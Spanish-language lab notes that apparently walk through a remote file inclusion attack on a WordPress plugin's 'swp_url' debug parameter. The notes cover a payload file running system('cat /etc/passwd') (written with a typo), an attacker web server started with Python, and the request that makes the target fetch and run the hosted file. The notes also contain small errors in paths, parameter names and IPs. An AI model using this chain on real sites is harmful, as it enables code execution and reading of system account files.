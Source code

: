 ```
<Pre>system('cat /ect/passwd')</pre>

El comando en cuestión es "cat /etc/passwd", que es un comando de Unix/Linux utilizado para mostrar el contenido del archivo "/etc/passwd". Este archivo almacena información sobre las cuentas de usuario en el sistema operativo.

```

==Este tendrá el nombre de comando 1 y tendrá que esta ubicado en la raíz del directorio compartido.

![[Captura de pantalla 2023-06-22 141611.png]]

Al ejecutar este comando, iniciarás un servidor web simple en tu máquina en el puerto 80, lo que te permitirá servir archivos y contenido web localmente.
```
Sudo python3 -m http.server 80

- "sudo": Es un comando utilizado en sistemas basados en Unix/Linux que permite ejecutar el comando con privilegios de superusuario. Proporciona los permisos necesarios para iniciar el servidor en un puerto privilegiado como el puerto 80.

- "python3": Es el intérprete de Python en su versión 3.

- "-m http.server": Es una opción del intérprete de Python que ejecuta el módulo "http.server", el cual proporciona un servidor web simple.

- "80": Es el número de puerto en el que se inicia el servidor. El puerto 80 es el puerto estándar utilizado para las solicitudes HTTP.
```

![[Captura de pantalla 2023-06-22 141132.png]]

```
http://102.168.153.128/wordpress/wp-admin/admin-post.php?wsp_debug=load_options&swp_url=http://192.168.153.129/comando1.txt

- `http://102.168.153.128/wordpress/wp-admin/admin-post.php` es la URL a la que se realiza la solicitud. Parece ser una ruta dentro de un sitio de WordPress, específicamente la ruta `admin-post.php` en el directorio `wp-admin`.

- `?` indica el inicio de los parámetros de la URL.

- `wsp_debug=load_options` es un parámetro que indica que se desea cargar opciones de depuración.

- `&` se utiliza para separar múltiples parámetros en la URL.

- `swp_url=http://192.168.153.129/comando1.txt` es otro parámetro que especifica una URL (`http://192.168.153.129/comando1.txt`) a la que se está haciendo referencia.
```


![[Captura de pantalla 2023-06-22 141906.png]]

